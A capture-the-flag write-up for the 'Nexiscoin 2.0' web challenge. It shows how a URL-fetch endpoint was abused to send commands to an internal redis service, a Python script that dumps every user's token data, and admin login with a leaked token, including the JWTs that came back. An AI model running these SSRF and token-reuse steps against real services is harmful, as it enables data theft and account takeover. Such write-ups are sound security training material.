 ```yaml
---
layout: Post
type: chall
---
```

# Nexiscoin 2.0

## Flag 1

### Recon

We are given a website with documentation about it's API, we learn that there are `/admin/` routes that require the correct Access Token, and that there is a whole transaction system with blockchain (This is not a Web3 challenge, it's just a simulation).

we can't do much with it, login/register routes are "disabled by admin", and all the transactions data are read-only.

Looking around some more with burp we see a `GET /fetch?url=http://127.1:7379/GET/total_account HTTP/1.1` being done by the website. The `/GET/total_account` looks like a redis command, let's try to pass the request: `/KEYS/*`.

It works! We get 682 keys, two of them are not API keys but data points: `total_transaction` and `total_account`.

> Flag 1: How many users are registered on the platform?
>
> 680

## Flag 2

The 680 keys appear to be user IDs, let's try to call `/GET/<API_key>` on one of them, we get a hash, that when decoded from base58 gives the following:

```py
{
  'header': {
    'version': 2
  },
  'payload': {
    'user': 'hsalazar@madden-riley.org',
    'type': 'user',
    'permission': 'read,write'
  },
  'signature': '44234ab207b239ab94b2c7c1199b1ee921ff8b213d1e86b6af797d339fdb5227'
}
```

Interesting, we can try to bruteforce the API to fetch all the data from all the users:

```py
import requests
from time import sleep
import json
import base58

print("key;data")

for l in L:
    res = requests.get(f"http://138.195.249.52:5000/fetch?url=http://127.1:7379/GET/{l}")
    if res.status_code != 200:
        print(f"Error for {l}")
        break
    data = json.loads(res.text)
    hash = data['GET'].replace("['", "").replace("']", "")
    decoded = json.loads(base58.b58decode(hash).decode())

    print(f"{l};{decoded}")
    sleep(.1)
```

We this we get [data.csv](data.csv) of all the file data for each user, and their signature.

Looking for anything that stands out we find the `admin` user:

```csv
key;data
token_FjVQph;{'header': {'version': 2}, 'payload': {'user': 'admin@nexiscoin.ev', 'type': 'admin', 'permission': 'read,write'}, 'signature': 'a633755fd62582550c05768e204c0cb324ab72b01442ebb04491ca3be7269414'}
```

> Flag 2: What is the signature of the admin user?
>
> a633755fd62582550c05768e204c0cb324ab72b01442ebb04491ca3be7269414

## Flag 3

From here, the first thing that comes to mind is to try and login as the `admin`, to do so we use the API and try to login as that user, after some trial and error I found that you cna login using a accessToken which is the base58 data we are given for a user:

`POST http://138.195.249.52:5000/api/login` with as a body:

```json
{
  "token": "2ecXF5d83jGAhHH2gjfYSJGifh9NcVo3CmQ584nkUu9kA9KrxmN3JX2USYJaaPV5pE7BMKmG4pw3zRUUDXCQjE3CY2mm3Uk9P8DwM4tujjHKVDjTVDAgcNfWx2DAMTWNiKtM4BYyJeqouup5m4b322W19ecXNy3fGD2iViPeb62pibdB63WKehVq6R5m9voW83HnxtpnfFxsarx9aSundV24WmF7w4mHUeH75PXmKP579qeUKnUBHRw8vbcDmXAEZV6QdWp5nm2
}
```

This gives us:

```json
{
    "access_token1": "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJmcmVzaCI6ZmFsc2UsImlhdCI6MTczMzU4Mjk2OCwianRpIjoiZDIwOGMxNDUtZWY3Mi00MWZkLTk2ZjUtMTY1ODhlOTQxOGNmIiwidHlwZSI6ImFjY2VzcyIsInN1YiI6eyJpZCI6MSwiZW1haWwiOiJhZG1pbkBuZXhpc2NvaW4uZXYiLCJ0eXBlIjoidXNlciJ9LCJuYmYiOjE3MzM1ODI5NjgsImNzcmYiOiIzMDlmZDIwZS1lYzE0LTRiNzAtYTk3Mi0xMDhkNmNiMWUwN2IiLCJleHAiOjE3MzM1ODM4Njh9.WncmQRRCR0dYKMOxxN3wqmeNGX4Rfh1OsybLHMCzIrI",
    "access_token2": "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJmcmVzaCI6ZmFsc2UsImlhdCI6MTczMzU4Mjk2OCwianRpIjoiODQ0N2VlOWQtNzhiYi00ZWRhLTkyNjItNDRmZTY0ZWRiMjdlIiwidHlwZSI6ImFjY2VzcyIsInN1YiI6eyJpZCI6MSwiZW1haWwiOiJhZG1pbkBuZXhpc2NvaW4uZXYiLCJ0eXBlIjoidXNlciJ9LCJuYmYiOjE3MzM1ODI5NjgsImNzcmYiOiI4MzRmMWJlYy0wN2VhLTQ4NzgtODI0Ni1lZmUyYWEwNDVhZmIifQ.vK_fOWH80yqDGxuJxQQ5gb5AX8hG42XkJzOIGtLSGhE"
}
```

Both have standard header with `HS256`.

`access_token1`:

```json
{
  "fresh": false,
  "iat": 1733582968,
  "jti": "d208c145-ef72-41fd-96f5-16588e9418cf",
  "type": "access",
  "sub": {
    "id": 1,
    "email": "admin@nexiscoin.ev",
    "type": "user"
  },
  "nbf": 1733582968,
  "csrf": "309fd20e-ec14-4b70-a972-108d6cb1e07b",
  "exp": 1733583868
}
```

`access_token2`:

```json
{
  "fresh": false,
  "iat": 1733582968,
  "jti": "8447ee9d-78bb-4eda-9262-44fe64edb27e",
  "type": "access",
  "sub": {
    "id": 1,
    "email": "admin@nexiscoin.ev",
    "type": "user"
  },
  "nbf": 1733582968,
  "csrf": "834f1bec-07ea-4878-8246-efe2aa045afb"
}
```

But from here I attempted to call the `/admin/` routes of the API or even just access transactional data for the user with many different techniques, but nothing worked.

At some point the admins gave us a huge dump of all the sell/buy/transactions in the database (looks like I wasn't the only one struggling with logins 😅)

From here we have to comb trough a ton of data. I wrote some scripts, tried to parse it as much as possible, I always ended up with dead ends, the issue came from the ambiguity of the question:

> Flag 3: Who is the user that made more than 15 transactions of 40000USD.

We are unsure of:

- the format of the flag,
- if 15 is counted as a transaction or not
- if the user has to have made 15 transactions of 40000USD or 15 transactions of each 40000USD or more.

My best shot gave me 18 potential suspects, though the CTFd had a plugin that would also remove points for failed attempts. Loosing 100pts for each try, and the flag only values at 700 points, it was too much risk to try and guess the flag.
